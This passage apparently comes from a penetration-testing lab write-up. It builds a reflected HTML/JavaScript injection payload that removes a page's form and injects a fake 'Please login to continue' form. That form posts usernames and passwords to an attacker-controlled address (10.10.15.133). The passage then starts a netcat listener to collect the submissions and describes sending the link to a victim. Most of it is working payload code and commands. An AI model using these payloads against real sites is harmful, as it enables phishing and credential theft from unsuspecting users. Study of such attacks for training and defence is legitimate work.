 To make the page look more convincing and nudge people to use the login form, we need to hide the image input field. This can do this by adding some JavaScript to our payload.

```
'><script>document.getElementById('urlform').remove();</script><h3>Please login to continue</h3><form action=http://10.10.15.133><input type="username" name="username" placeholder="Username">   <input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><div style="display:none'
```

Finally, instead of just hiding the image tag, we might as well display a nice professionally looking image.

```
https://freeiconshop.com/wp-content/uploads/edd/image-outline-filled.png' style="margin: -50px 0px -30px 0px;"><script>document.getElementById('urlform').remove();</script><h3>Please login to continue</h3><form action=http://10.10.15.133><input type="username" name="username" placeholder="Username">   <input type="password" name="password" placeholder="Password">   <input type="submit" name="submit" value="Login"></form><div style="display:none'
```

The final result.

![](./attachments/Pasted%20image%2020220510234036.png)

Now that the payload is done, we can start a netcat listener.

```bash
┌──(kali㉿kali)-[~/flybook]
└─$ nc -lvnp 80                       
listening on [any] 80 ...
▇
```

Lastly, all we need to do is send the link containing the payload to a victim and wait for it to be clicked.
